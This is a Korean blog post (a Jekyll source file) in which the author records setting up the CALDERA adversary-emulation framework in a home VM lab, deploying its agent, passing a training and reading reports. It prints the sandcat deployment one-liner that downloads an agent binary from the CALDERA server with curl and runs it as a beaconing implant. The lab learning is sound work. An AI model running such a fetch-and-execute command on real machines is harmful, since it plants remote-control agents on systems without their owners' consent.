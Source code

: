 ```yaml
---
layout: post
title:  "3.CALDERA 이해하기"
date:   2021-01-12
categories: jekyll update
---
```


##CALDERA 설치 중 알게 된 사실 정리

* 결국은 여러대의 VM이 필요함
* sandcat은 go가 설치되어 있어야 함
* 전체적인 구조

본론부터 말하자면 칼데라는 사이버 킬체인을 구현할 수 있는 시뮬레이터다.
모의해킹을 도와주는 프레임워크라고 말 할 수있다.
그래서 이때까지 구현 한 것은 모의해킹을 전반적으로 관리해 주는 서버인 것이다.
실제로 옛날 문서를 구글링 해 본 결과, 칼데라에는 서버와 에이전트가 따로 존재했다.
즉, 서버가 구축되어 있는 리눅스와 에이전트를 심을 클라이언트 운영체제가 있어야 한다는 것이다.
윈도우나 리눅스, 맥같은 운영체제를 선택할 수 있는 항목이 있는 이유가 여기 있었다.
서버는 오직 리눅스에서, 클라이언트는 각종 운영체제를 선택 할 수 있다.

나는 CentOS를 하나 더 구축해서 에이전트를 투입하고 사이버 공격을 시도하는 실험을 진행했다.
![시작](/img/시작.PNG)
실험을 할 CentOs Desktop

![구조](/img/구조.PNG)
현재 VM 구조

여기서 Agent를 침투시키는 명령어가 있는데,
``server="http://172.30.1.37:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;chmod +x sandcat.go;./sandcat.go -server $server -group red -v``
이 코드를 복사 해서 Desktop Interface의 Putty에 붙여넣어 주었다.
그럼 해당 경로에 `sandcat.go` 라는 go 파일이 생기는데, 여기서 알 수 있듯 **반드시** 해당 컴퓨터에는 go 언어가 깔려 있어야 한다. 여기서 go의 버전은 1.11 이상이여야 한다. 즉, 칼데라 서버에서도 go가 깔려 있어야 하고 침투시킬 PC에서도 go가 깔려 있어야 한다.

![agnet](/img/ㅋㅋㅋ.PNG)
그렇게 되면 저번과 다르게 이렇게 비콘을 통해 지속적으로 신호를 주고 받는다!
또한 2번째 텝에 있었던 능력을 실제로 적용해 진행하는 모습을 보인다.

![1](/img/트레이닝.PNG)
그럼 이렇게 첫 번째 트레이닝을 통과 할 수 있다.
구글링을 해 본 결과 모든 트레이닝을 통과하면 인증서를 발급 받을 수 있다고 한다.
그런데 당장 필요한 기능은 아닌 것 같으니 넘어가자.

![2](/img/뭔가되더라.PNG)
게임보드에 가게 되면 이렇게 red와 blue의 현재 상황을 볼 수 있다.
당연히 blue팀에 대해서는 아무 것도 하지 않았으므로 0점이다.

![3](/img/스크롤.PNG)
모든 작전이 끝나고 나면 이렇게 리포트를 다운받을 수 있는데, 이것 역시 처음과는 다르게 스크롤의 수가 아주 긴 것을 볼 수 있다. 여기서는 시행한 모든 공격에 대한 보고가 자세하게 적혀있다.

###아직 해결하지 못한 문제들
![4](/img/에러.PNG)
서버의 로그 인데, 몇 시에 난 건지는 적혀 있지만 저 당시에 뭘 하고 있었는지는 정확히 알 수가 없다. 그래서 추후에 코드리딩을 통해 문제를 해결 할 것이다.
